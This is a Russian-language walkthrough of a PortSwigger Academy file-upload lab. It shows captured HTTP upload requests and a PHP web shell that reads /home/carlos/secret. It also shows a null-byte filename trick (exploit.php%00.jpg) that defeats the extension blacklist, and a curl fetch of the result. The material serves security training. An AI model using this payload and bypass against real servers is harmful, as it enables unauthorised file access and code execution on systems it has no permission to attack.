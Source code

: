 ```yaml
---
title: "Web shell upload via obfuscated file extension"
date: 2025-08-14
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/
```

## Solution

Залогинюсь в ЛК, чтобы получить доступ к загрузке изображения. Далее загружу картинку, чтобы получить `POST`-запрос:

```http
POST /my-account/avatar HTTP/2
Host: 0a9e00500358597d8139cfb30072000e.web-security-academy.net
Cookie: session=lEfYg1FlPTuq1ROth2VpoLZNtUwnBfjp
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundaryfceb9abf78dbacfa1630c433a9ee5183
Content-Length: 107749
Origin: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundaryfceb9abf78dbacfa1630c433a9ee5183
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

Получил ответ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_obfuscated_file_extension/1.png){: height="200" .align-center}

Попробую загрузить пейлоад на `php` со следующим содержанием:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Я получил следующее сообщение об ошибке:

```
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.
```

Перехвачу этот запрос с помощью `Burp Proxy`.

```http
POST /my-account/avatar HTTP/2
Host: 0a9e00500358597d8139cfb30072000e.web-security-academy.net
Cookie: session=lEfYg1FlPTuq1ROth2VpoLZNtUwnBfjp
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Length: 521
Origin: https://0a9e00500358597d8139cfb30072000e.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: text/php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary2c70b7ac2112b49187d963d4f8123642
Content-Disposition: form-data; name="csrf"

RgCgfWH2Gi2LyeTUGt2VfUTMRoERK3OT
------geckoformboundary2c70b7ac2112b49187d963d4f8123642--
```

Попробую обфусцировать расширение файла.

```
exploit.php .jpg - Ok, но нет доступа
'exploit.php ' - 403
exploit.php%00.jpg - ok
```

Теперь надо получить файл через `curl`:

```bash
cu63:~/ $ curl https://0a9e00500358597d8139cfb30072000e.web-security-academy.net/files/avatars/exploit.php                                               
muIWVFAUZpHDz4wxvhmVaTIRTvphcvCO%
```

Сдам токен `muIWVFAUZpHDz4wxvhmVaTIRTvphcvCO` для прохождения лабы в форму проверки.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_obfuscated_file_extension/2.png){: height="200" .align-center}

Лаба успешно пройдена:3
